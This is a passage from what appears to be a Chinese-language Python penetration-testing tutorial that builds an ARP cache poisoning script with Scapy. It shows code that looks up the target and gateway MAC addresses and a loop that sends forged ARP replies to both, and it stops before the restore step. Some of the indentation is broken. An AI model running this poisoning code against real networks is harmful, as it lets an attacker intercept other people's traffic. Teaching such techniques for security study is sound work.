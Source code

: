 1.  现在用`getMac()`方法获取目标和网关的 MAC 地址：

```py
try:
    gateway_mac = getMac(gateway_ip)
    print ("Gateway MAC :" + gateway_mac)
except:
    print ("Failed to get gateway MAC. Exiting.")
    sys.exit(0)
try:
    target_mac = getMac(target_ip)
    print ("Target MAC :" + target_mac)
except:
    print ("Failed to get target MAC. Exiting.")
    sys.exit(0)  
```

1.  定义中毒目标 ARP 缓存的函数：

```py
def poison(gateway_ip,gateway_mac,target_ip,target_mac):
    targetPacket = ARP()
    targetPacket.op = 2
    targetPacket.psrc = gateway_ip
    targetPacket.pdst = target_ip
    targetPacket.hwdst= target_mac
    gatewayPacket = ARP()
    gatewayPacket.op = 2
    gatewayPacket.psrc = target_ip
    gatewayPacket.pdst = gateway_ip
    gatewayPacket.hwdst= gateway_mac
    while True:
       try:
           targetPacket.show()
           send(targetPacket)
           gatewayPacket.show()
           send(gatewayPacket)
           time.sleep(2)
         except KeyboardInterrupt:                
 restore_target(gateway_ip,gateway_mac,target_ip,target_mac)
            sys.exit(0)
       sys.exit(0)
       return
```

在这里，我们发送两种类型的数据包--一种是发送到目标机器，另一种是发送到网关。前两个块定义了这些数据包。目标数据包将如下所示：

![](img/00055.jpeg)

`网关`数据包将如下所示：

![](img/00056.jpeg)

1.  现在创建一个函数将中毒的缓存重置为正常状态：
